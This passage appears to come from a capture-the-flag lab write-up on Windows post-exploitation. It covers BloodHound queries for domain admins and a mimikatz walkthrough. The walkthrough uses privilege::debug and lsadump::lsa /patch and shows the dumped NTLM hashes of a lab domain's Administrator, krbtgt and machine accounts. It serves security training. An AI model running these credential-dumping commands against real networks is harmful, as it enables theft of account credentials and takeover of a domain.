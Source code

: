 - Drag and drop the loot.zip folder into Bloodhound to import the .json files

- Simple query: find all domain admins

![](https://amirr0r.github.io/assets/img/thm/windows/windows-post-exploitation-basics/simple-bloodhound-query.png)

![](https://amirr0r.github.io/assets/img/thm/windows/windows-post-exploitation-basics/domain-admins.png)

![](https://amirr0r.github.io/assets/img/thm/windows/windows-post-exploitation-basics/kerberoastable-users.png)

![](https://amirr0r.github.io/assets/img/thm/windows/windows-post-exploitation-basics/bloodhound-answers.png)

___

## `mimikatz` 

`mimikatz` is a very popular and powerful post-exploitation tool mainly used for dumping user credentials inside of a active directory network.

```cmd
PS C:\Users\Administrator\Downloads> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 May  2 2020 16:23:51              
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)                               
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )  
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz                    
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com ) 
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/ 
```

- [`privilege::debug`](https://github.com/gentilkiwi/mimikatz/wiki/module-~-privilege) (to be executed as an administrator) ask for **SeDebugPrivilege** in order to interact with the LSASS process:

```cmd
mimikatz # privilege::debug 
Privilege '20' OK 
```

### Dumping NTLM hashes and cracking them using `hashcat`

- `lsadump::lsa /patch` dumps the NTLM password hashes:


```cmd
mimikatz # lsadump::lsa /patch 
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 
                                                              
RID  : 000001f4 (500)                                         
User : Administrator                                          
LM   :                                                        
NTLM : 2777b7fec870e04dda00cd7260f7bee6                       
                                                              
RID  : 000001f5 (501)                                         
User : Guest                                                  
LM   :                                                        
NTLM :                                                        
                                                              
RID  : 000001f6 (502)                                         
User : krbtgt                                                 
LM   :                                                        
NTLM : 5508500012cc005cf7082a9a89ebdfdf

RID  : 0000044f (1103)
User : Machine1
LM   :
NTLM : 64f12cddaa88057e06a81b54e73b949b

```
